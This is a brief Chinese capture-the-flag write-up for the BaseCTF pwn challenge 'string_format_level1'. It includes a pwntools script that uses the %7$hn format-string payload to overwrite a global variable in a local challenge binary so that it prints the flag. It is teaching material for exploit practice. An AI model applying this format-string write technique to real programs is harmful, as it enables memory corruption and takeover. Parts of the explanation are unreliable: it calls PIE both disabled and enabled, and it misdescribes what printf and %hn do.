

# Basectf pwn方向“string_format_level1”

by Maple

依旧，题目就是提示，检查下题目发现关闭了PIE保护，也就是说可以在地址上做文章了



这里可以发现当target不为0的时候可以输出flag，所以修改flag值就好

```python
from pwn import *
p = process('./vuln')

target = 0x4040b0
payload = b'aaa%7$hn'+p64(target)
p.sendline(payload)
p.interactive()
```

## 解析

获取输入值在栈中的偏移量的方法就不加赘述了

这里target的地址是直接在ida里找到的，因为开启了pie所以所见即所得

`printf("%d %n",a,&b);`的意思是读入数字到a中，而读入的字符数将读入到b指向的内存地址中

`payload = b'aaa%7$hn'+p64(target)`

- 先填充位，不然就算改到target里了也是从0变成了0
- `%7$hn`
  - `7$`是第七个参数作为格式化源（也就是printf函数会从堆栈中获取第7个参数的值）
  - `hn`表示将该参数的值以半字（half n）（2字节）的形式写入到指定内存
- `p64(target)`就是相应的内存地址

现在的

`printf("%s %hn",aaa,&target)`